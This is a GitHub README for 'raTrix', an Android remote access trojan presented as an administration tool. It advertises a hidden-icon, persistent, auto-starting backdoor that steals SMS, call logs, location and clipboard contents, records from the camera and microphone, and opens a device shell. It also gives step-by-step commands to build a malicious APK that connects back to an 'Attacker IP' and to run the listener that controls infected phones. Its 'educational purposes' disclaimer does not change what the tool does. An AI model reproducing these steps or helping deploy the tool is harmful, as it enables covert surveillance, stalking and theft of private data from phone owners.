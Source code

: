 <img src="https://github.com/MrpasswordTz/raTrix/blob/main/images/2.jpg" alt= 'ratrix picture' >

# raTrix 🐀 
raTrix is a powerful Android administration tool designed for Linux systems. It utilizes Python on the client-side and Java on the server-side to provide a robust and efficient management solution.

# FEATURE FOR raTrix
<ul>
  <li>light apk</li>
  <li>shell and build mode</li>
  <li>it run background 24hrs</li>
  <li>it show device info,MAC Adress, device ip, simcard info</li>
  <li>Auto start backdoor</li>
  <li>sms viewing and callLogs viewing</li>
<li>all port-forwading</li>
  <li>microphone checking</li>
  <li>camera checking</li>
  <li>full persistent</li>
  <li>Easy To use</li>
  <li>no icon</li>
</ul>

 # installation on termux
```
pkg update
pkg upgrade
pkg install git
pkg install python python2 python3
pkg install openjdk-17
pkg install aapt
git clone https://github.com/MrpasswordTz/raTrix.git
cd raTrix
```

# usages building mode
```
python3 raTrix.py --build [models]
modules:
 -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

EXample: python3 raTrix.py --build -i 192.168.16.216 -p 443 -o sudo.apk
```

# Usages SHELL mode
```
Usage:
  python3 raTrix.py --shell [modules]
  modules:
    -i, --ip                Listner IP address
    -p, --port              Listner port number

Example: python3 raTrix.py --shell -i 192.168.16.216 -p 443
```
# Commands in shell mode
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```

# Examples 
<b>in buliding mode(generating apk)</b>
```
python3 raTrix.py -i 192.169.120.34 -p 8080 -o sudo.apk
```

<b>in shell mode (listening)</b>
```
python3 raTrix.py --shell -i 192.169.120.34 -p 8080
```

# Disclaimer
This tool is only for educational purposes, i will not be responsible for any Damage

<h1 style='color:red;'>TOOL IS UNDER CONSTRUCTION</h1>
